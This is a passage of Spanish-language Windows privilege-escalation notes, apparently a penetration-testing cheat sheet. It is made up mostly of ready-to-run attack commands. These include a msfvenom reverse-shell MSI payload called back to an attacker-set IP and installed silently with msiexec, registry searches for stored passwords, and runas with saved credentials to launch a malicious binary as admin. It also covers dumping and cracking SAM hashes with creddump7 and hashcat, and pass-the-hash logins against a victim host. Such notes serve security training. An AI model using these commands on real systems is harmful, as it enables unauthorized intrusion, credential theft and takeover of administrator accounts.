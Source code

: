         msfvenom -p windows/x64/shell_reverse_tcp LHOST=NUESTRA_IP LPORT=PUERTO -f msi -o reverse.msi

lo instalamos y se nos va a generar una shell reversa con permisos de admin.

        msiexec /quiet /qn /i C:\PrivEsc\reverse.msi



## PASSWORDS

### REGISTRY

podemos buscar passwords en el registro de windows: 
Usualmente, si están, se encuentran en el archivo winlogon. De esta forma podemos listarlo:

        reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

De no estar ahí podemos expandir nuestra búsqueda listando archivos del registro que tengan la key o el value "password" y luego volver a listar cada uno con el comando anterior:

        reg query HKLM /f password /t REG_SZ /s

si encontramos la password podemos conectarnos desde kali con el winexe:

        winexe -U 'admin%password' //IP-VICTIMA cmd.exe


### SAVED CREDS

Podemos listar las credenciales guardadas en el sistema con el siguiente comando:

        cmdkey /list

Si entre las credenciales guardadas aparecen las del admin(no vamos a ver la password) podemos correr nuestro binario malicioso como admin y tener una reverse shell:


        runas /savecred /user:admin C:\PrivEsc\reverse.exe



### SAM

Si podemos extraer el SAM y System (usualmente se encuentran en la carpeta windows/repair)

podemos unirlos con creddump7 y extraer el hash, luego con hashcat podemos intentar romperlo:

        git clone https://github.com/Tib3rius/creddump7
        pip3 install pycrypto
        python3 creddump7/pwdump.py SYSTEM SAM

##### Luego las rompemos con hashcat

        hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

###### PASSING THE HASH

Si obtuvimos el hash pero no lo podemos romper, podemos loguearnos con el hash utilizando pth-winexe:

        pth-winexe -U 'admin%hash' //10.10.11.49 cmd.exe
